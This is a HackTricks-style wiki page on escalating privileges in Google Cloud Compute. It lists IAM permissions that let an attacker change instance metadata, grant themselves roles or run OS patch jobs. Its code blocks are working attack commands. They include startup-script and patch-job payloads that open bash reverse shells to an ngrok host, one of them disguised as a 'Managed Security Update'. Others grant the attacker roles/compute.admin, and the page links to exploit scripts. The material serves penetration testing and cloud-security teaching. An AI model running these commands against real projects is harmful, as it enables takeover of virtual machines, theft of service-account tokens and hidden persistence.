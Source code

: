 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

For more information about Compute and VPC (netowork) in GCP check:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> Note that to perform all the privilege escalation atacks that require to modify the metadata of the instance (like adding new users and SSH keys) it's **needed that you have `actAs` permissions over the SA attached to the instance**, even if the SA is already attached!

### `compute.projects.setCommonInstanceMetadata`

With that permission you can **modify** the **metadata** information of an **instance** and change the **authorized keys of a user**, or **create** a **new user with sudo** permissions. Therefore, you will be able to exec via SSH into any VM instance and steal the GCP Service Account the Instance is running with.\
Limitations:

- Note that GCP Service Accounts running in VM instances by default have a **very limited scope**
- You will need to be **able to contact the SSH** server to login

For more information about how to exploit this permission check:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

You could aslo perform this attack by adding new startup-script and rebooting the instance:

```bash
gcloud compute instances add-metadata my-vm-instance \
    --metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```

### `compute.instances.setMetadata`

This permission gives the **same privileges as the previous permission** but over a specific instances instead to a whole project. The **same exploits and limitations as for the previous section applies**.

### `compute.instances.setIamPolicy`

This kind of permission will allow you to **grant yourself a role with the previous permissions** and escalate privileges abusing them. Here is an example adding `roles/compute.admin` to a Service Account:

```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
  - serviceAccount:$SERVER_SERVICE_ACCOUNT
  role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```

### **`compute.instances.osLogin`**

If **OSLogin is enabled in the instance**, with this permission you can just run **`gcloud compute ssh [INSTANCE]`** and connect to the instance. You **won't have root privs** inside the instance.

> [!TIP]
> In order to successfully login with this permission inside the VM instance, you need to have the `iam.serviceAccounts.actAs` permission over the SA atatched to the VM.

### **`compute.instances.osAdminLogin`**

If **OSLogin is enabled in the instanc**e, with this permission you can just run **`gcloud compute ssh [INSTANCE]`** and connect to the instance. You will have **root privs** inside the instance.

> [!TIP]
> In order to successfully login with this permission inside the VM instance, you need to have the `iam.serviceAccounts.actAs` permission over the SA atatched to the VM.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

It's possible to **create a virtual machine with an assigned Service Account and steal the token** of the service account accessing the metadata to escalate privileges to it.

The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

If you have the **`osconfig.patchDeployments.create`** or **`osconfig.patchJobs.exec`** permissions you can create a [**patch job or deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). This will enable you to move laterally in the environment and gain code execution on all the compute instances within a project.

Note that at the moment you **don't need `actAs` permission** over the SA attached to the instance.

If you want to manually exploit this you will need to create either a [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **or** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
For a patch job run:

```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
  --instance-filter-names=zones/us-central1-a/instances/<instance-name> \
  --pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
  --reboot-config=never \
  --display-name="Managed Security Update" \
  --duration=300s
```

To deploy a patch deployment:

```bash
gcloud compute os-config patch-deployments create <name> ...
```

The tool [patchy](https://github.com/rek7/patchy) could been used in the past for exploiting this misconfiguration (but now it's not working).

**An attacker could also abuse this for persistence.**

### `compute.machineImages.setIamPolicy`

**Grant yourself extra permissions** to compute Image.

### `compute.snapshots.setIamPolicy`

**Grant yourself extra permissions** to a disk snapshot.

### `compute.disks.setIamPolicy`

**Grant yourself extra permissions** to a disk.

### Bypass Access Scopes

Following this link you find some [**ideas to try to bypass access scopes**](../).

### Local Privilege Escalation in GCP Compute instance

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}




